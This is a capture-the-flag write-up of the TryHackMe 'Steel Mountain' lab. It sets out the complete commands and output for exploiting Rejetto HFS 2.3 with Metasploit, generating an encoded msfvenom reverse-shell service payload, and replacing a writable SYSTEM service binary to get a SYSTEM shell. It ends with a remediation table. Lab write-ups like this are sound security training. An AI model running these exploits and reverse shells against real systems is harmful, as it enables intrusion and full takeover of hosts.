





# Steel Mountain — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.169.169 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**Steel Mountain** is a TryHackMe room built around a vulnerable Rejetto HTTP File Server (HFS) 2.3 running on a Windows Server 2012 R2 box. The default IIS page on port 80 hints at the username `bill` through an "Employee of the month" photo, later confirmed when HFS's known remote command execution flaw — exploited via Metasploit's `rejetto_hfs_exec` module — grants a Meterpreter session as that user. From there, process enumeration reveals `ASCService.exe` running under `LocalSystem` as the `AdvancedSystemCareService9` service, and `icacls` confirms bill has write access to its binary — enough to replace it with a malicious `exe-service` payload and trigger a SYSTEM shell by restarting the service.

**Attack chain:** IIS default page (username lead) → Rejetto HFS 2.3 RCE (Metasploit `rejetto_hfs_exec`) → Meterpreter as bill → Process enumeration (AdvancedSystemCareService9) → Writable service binary (icacls) → msfvenom exe-service payload replaces binary → Service restart → Root

## 1. Reconnaissance

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.169.169

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 8.5
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http          HttpFileServer httpd 2.3
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49156/tcp open  msrpc         Microsoft Windows RPC
49199/tcp open  msrpc         Microsoft Windows RPC
49201/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## 2. Default IIS Page — Recon Lead


```html
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8">
	<title>Steel Mountain</title>
<style>
* {font-family: Arial;}
</style>
</head>
<body><center>
<a href="index.html"></a>
<h3>Employee of the month</h3>

</center>
</body>
</html>
```

The filename hints at a valid username before any exploitation.

## 3. Rejetto HFS 2.3 — Remote Code Execution

HttpFileServer 2.3 on port 8080 had no files shared, but the server banner confirms the vulnerable version:



```
searchsploit rejetto

Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)   | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)      | windows/remote/34668.txt
...
```

8 exploits returned in total; the Metasploit RCE module was used.

Exploited with the Metasploit module:

```
msf exploit(windows/http/rejetto_hfs_exec) > set lhost 192.168.146.25
msf exploit(windows/http/rejetto_hfs_exec) > set rport 8080
msf exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.64.169.169
msf exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 192.168.146.25:4444 
[*] Using URL: http://192.168.146.25:8080/L9Tw3RadDwNl
[*] Sending a malicious request to /
[*] Sending stage (203454 bytes) to 10.64.169.169
[*] Meterpreter session 1 opened (192.168.146.25:4444 -> 10.64.169.169:49289) at 2026-10-20 18:56:26 -0400
```

## 4. Post-Exploitation & User Flag

Basic checks on the new session:

```
meterpreter > getuid
Server username: STEELMOUNTAIN\bill
meterpreter > sysinfo 
Computer        : STEELMOUNTAIN
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`getuid` confirms the earlier recon lead: the session runs as `bill`.

A shell was opened, and the user flag was read from bill's desktop:



From the same shell, privilege enumeration showed nothing exploitable:

```
meterpreter > shell
Microsoft Windows [Version 6.3.9600]

C:\Users\bill\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

No exploitable token privileges — enumeration moves to services instead.

## 5. Privilege Escalation — Writable Service Binary

Back in meterpreter, process listing reveals a third-party service with no user or path visible for that PID:

```
meterpreter > ps

 PID   PPID  Name                  Arch  Session  User                Path
 ---   ----  ----                  ----  -------  ----                ----
...
 824   640   ASCService.exe
...
```

Querying the service confirms it runs under `LocalSystem`:

```
C:\Users\bill\Desktop>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

And `icacls` on that binary shows bill has write access:

```
C:\Users\bill\Desktop>icacls "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
icacls "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe STEELMOUNTAIN\bill:(I)(RX,W)
                                                                NT AUTHORITY\SYSTEM:(I)(F)
                                                                BUILTIN\Administrators:(I)(F)
                                                                BUILTIN\Users:(I)(RX)
                                                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

A payload was generated in `exe-service` format so it survives being launched by the Service Control Manager:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.146.25 LPORT=5555 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
Payload size: 351 bytes
Final size of exe-service file: 5120 bytes
Saved as: Advanced.exe
```

A listener was started for the new payload:

```
msf exploit(multi/handler) > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/shell_reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.146.25
msf exploit(multi/handler) > set lport 5555
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.146.25:5555
```

The service was stopped to release the file lock on the binary:

```
C:\Users\bill\Desktop>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

`STATE: 4 RUNNING` is the state at the moment the stop request was sent; querying again confirms it actually stopped:

```
C:\Users\bill\Desktop>sc query AdvancedSystemCareService9
sc query AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

The payload was uploaded in its place from meterpreter:

```
meterpreter > upload /home/kaskamilla/TryHackme/Advanced.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe"
[*] Uploaded 5.00 KiB of 5.00 KiB (100.0%): /home/kaskamilla/TryHackme/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```

And the service was restarted:

```
C:\Users\bill\Desktop>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1448
        FLAGS              : 
```

The restarted service triggers the payload, caught on the waiting listener:

```
[*] Command shell session 1 opened (192.168.146.25:5555 -> 10.64.169.169:49370) at 2026-10-20 19:16:08 -0400
```



With a SYSTEM shell, the root flag was read from the Administrator's desktop:



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Employee photo filename (`BillHarper.png`) on the default IIS page hints at a valid username before any exploitation | Remove identifying information from public-facing default pages |
| Rejetto HFS 2.3 vulnerable to unauthenticated remote command execution | Upgrade or replace HttpFileServer; it is unmaintained and should not be exposed to untrusted networks |
| A standard user has write (`W`) permission on a SYSTEM-owned service binary (`AdvancedSystemCareService9`) | Restrict file permissions on service binaries to Administrators/SYSTEM only; audit with `icacls` regularly |
| Service Control Manager executes the replaced binary with no integrity check | Enable code-signing verification for services where supported |
